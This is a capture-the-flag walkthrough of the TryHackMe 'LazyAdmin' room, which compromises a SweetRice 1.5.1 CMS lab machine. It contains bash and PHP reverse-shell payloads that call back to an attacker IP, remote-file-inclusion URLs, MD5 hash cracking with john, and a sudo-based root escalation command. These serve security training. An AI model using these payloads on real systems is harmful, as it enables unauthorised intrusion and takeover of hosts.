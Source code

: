 # TryHackMe - LazyAdmin  
🔗 https://tryhackme.com/room/lazyadmin  
📝 CMS: SweetRice v1.5.1  
🎯 Goal: Gain initial access, exploit CMS upload or backup leak, escalate to root via sudo misconfiguration

---

## 🖥️ Target Information

| Property     | Value                         |
|--------------|-------------------------------|
| IP Address   | 10.10.247.215                 |
| OS           | Ubuntu (inferred)             |
| Web Server   | Apache 2.4.18 (Ubuntu)        |
| SSH Server   | OpenSSH 7.2p2 Ubuntu          |
| CMS Detected | SweetRice v1.5.1              |

---

## 🔍 1. Enumeration

### Nmap Scan
```bash
nmap -sV -O 10.10.247.215
```

Results:
- 22/tcp → OpenSSH 7.2p2
- 80/tcp → Apache httpd 2.4.18

---

### Gobuster Scan
```bash
gobuster dir -u http://10.10.247.215 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -u http://10.10.247.215/as -w /usr/share/wordlists/dirb/common.txt -x php
```

Discovered:
- `/content/images`
- `/content/js`
- `/content/inc`
- `/content/as`
- `/content/_themes`
- `/content/attachment`

💡 `/js` source reveals SweetRice version

---

## 🔎 2. CMS Version Discovery

- Found `/content/inc/latest.txt` → shows **SweetRice v1.5.1**
- Vulnerability found:
  - [Exploit-DB 10246](https://www.exploit-db.com/exploits/10246)
  - [VulDB 51051](https://vuldb.com/ja/?id.51051)

---

## 🚪 3. RFI Attempts (Failed)

Reverse shell payload:
```php
<?php system('bash -i >& /dev/tcp/10.10.174.42/12345 0>&1'); ?>
```

Serve it:
```bash
python3 -m http.server 8000
```

Listener:
```bash
nc -lvnp 12345
```

Tested URLs:
```
http://10.10.247.215/content/index.php?root_dir=http://10.10.174.42:8000/aaa.php
http://10.10.247.215/content/as/lib/post.php?root_dir=http://10.10.174.42:8000/aaa.php
```

❌ RFI exploitation failed.

---

## 🧠 4. Password Disclosure via Backup

Found backup at:
```
/content/inc/backup_database
```

Extracted:
```
manager:42f749ade7f9e195bf475f37a44cafcb
```

Cracked with John:
```bash
echo "manager:42f749ade7f9e195bf475f37a44cafcb" > hash.txt
john --format=raw-md5 hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
john --show hash.txt
```

✅ Credentials:
- Username: `manager`
- Password: `Password123`

---

## 💥 5. Web Shell Upload (via Attachment)

Login to CMS dashboard → Upload a `.zip` containing reverse shell PHP.

Payload:
```php
<?php
$ip = '10.10.174.42';
$port = 12345;
$sock=fsockopen($ip, $port);
$proc = proc_open("/bin/bash -i", array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>
```

Start listener:
```bash
nc -lvnp 12345
```

✅ Reverse shell obtained as `www-data`.

---

## 🔓 6. Privilege Escalation

### Sudo Enumeration
```bash
sudo -l
```

Result:
```
(ALL) NOPASSWD: /usr/bin/perl /home/itguy/backup.pl
```

Script content:
```perl
system("sh", "/etc/copy.sh");
```

🚫 `/home/itguy/backup.pl` is NOT writable  
✅ `/etc/copy.sh` IS writable

---

### Overwrite /etc/copy.sh

Command:
```bash
echo "python3 -c 'import os; os.setuid(0); os.system(\"/bin/bash\")'" > /etc/copy.sh
```

Trigger root shell:
```bash
sudo /usr/bin/perl /home/itguy/backup.pl
```

✅ Root shell obtained!

---

## ✅ Summary

| Phase                | Status                         |
|---------------------|---------------------------------|
| Service Enumeration  | ✅ Nmap + Gobuster              |
| CMS Version Check    | ✅ SweetRice 1.5.1              |
| Backup Extraction    | ✅ manager:Password123          |
| Shell Upload         | ✅ Reverse shell via zip        |
| Privilege Escalation | ✅ Sudo Perl → writable copy.sh |

